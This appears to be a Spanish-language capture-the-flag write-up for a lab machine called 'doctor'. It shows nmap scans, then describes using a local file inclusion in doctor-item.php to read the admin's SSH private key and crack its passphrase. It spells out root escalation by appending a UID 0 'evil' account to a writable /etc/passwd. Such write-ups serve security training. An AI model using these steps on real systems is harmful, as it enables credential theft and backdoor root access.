

# Máquina doctor

### Reconocimiento de la Ip de la máquina víctima

### Puertos abiertos

sudo nmap -sS --min-rate 6000 -p- --open -vvv -Pn 192.168.42.171

### Servicios y versiones 

sudo nmap -sV --script vuln -p22,80 --min-rate 6000 -vvv 192.168.42.171

### Fuzzing web

### Entramos en la web

Al entrar en la web en el apartado doctors vemos que hay un archivo doctor-item.php con el parámetro include que llama a un archivo Doctors.html, lo que puede ser un LFI

Probamos LFI:

vemos que tenemos un usuario admin, vemos su id_rsa

copiamos el id_rsa y le sacamos el hash para crackearlo:

### Explotación

Nos conectamos mediante ssh:

### Escalar privilegios

Ejecutando la herramienta linpeas:

paso 1.- Genera una contraseña encriptada:

openssl passwd -1 "tupassword"

ejemplo de salida

pass_encriptada:

$1$2VcIqLB2$U.mQFZi487fsL.e9EyzU10

Paso 2: ejecuta nano /etc/passwd

añade la línea

evil:pass_encriptada:0:0:root:/root:/bin/bash

Paso 3: su evil

escribimos la contraseña tupassword

listo somos root !!!

### user.txt

### root.txt

